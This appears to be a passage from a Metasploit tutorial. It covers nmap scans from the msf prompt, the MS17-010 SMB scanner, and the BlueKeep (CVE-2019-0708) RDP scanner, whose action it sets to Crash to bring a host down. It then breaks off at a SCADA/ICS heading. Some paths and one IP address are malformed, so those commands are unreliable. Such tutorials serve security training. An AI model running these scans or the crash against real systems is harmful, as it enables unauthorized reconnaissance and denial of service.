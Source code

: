 Metasploit enables us to run nmap right from the msf prompt.

    msf6 > nmap -sT 192.168.181.0.1/24 -p1-10000

You can also use the db_nmap command to scan and save the results into Metasploit's postgresql attached database.

    msf6 > db_nmap 192.168.181.0/24

Scanning Modules

    kali > cd /usr/share/metasploit-framework/modules/auxilary
    
    kali > ls -l
    
    kali > cd scanner
    
    kali > ls -l

The SMB protocol has been problematic for over two decades on all operating systems. To determine whether a Windows 7/Server 2008 system is vulnerable to this exploit, there is a scanner in Metasploit to determine as such.

    kali > cd smb
    
    kali > ls -l
    
    msf6 > use auxiliary/scanner/smb/smb_ms17_010
    
    msf6 > set RHOSTS 192.168.1.102
    
    msf6 > run

**Bluekeep Vulnerability**

In May 2019, a security vulnerability was discovered in Microsoft's Remote Desktop Protocol (RDP enables another individual to take control of your system usually to help) This security vulnerability would enable a remote attacker to launch their own code on your system. This vulnerability was designated CVE-2019-0708.

Let's search for the Bluekeep vulnerability scanner. In Metasploit, most vulnerability scanners are kept among the auxilary modules.

    msf6 > search bluekeep
    
    msf6 > use auxilary/scanner/rdp/cve_2019_0708_bluekeep
    
    msf6 > set RHOSTS 192.168.1.101
    
    msf6 > run

To use this module as a denial of service, we need only to change the Available action parameter to Crash.

    msf6 > set ACTION Crash
    
    msf6 > run

## SCADA/ICS Reconnaissance

SCADA or Supervisory Control and Data Acquisition and ICS or Industrial Control System is the most important information security issue of this decade.
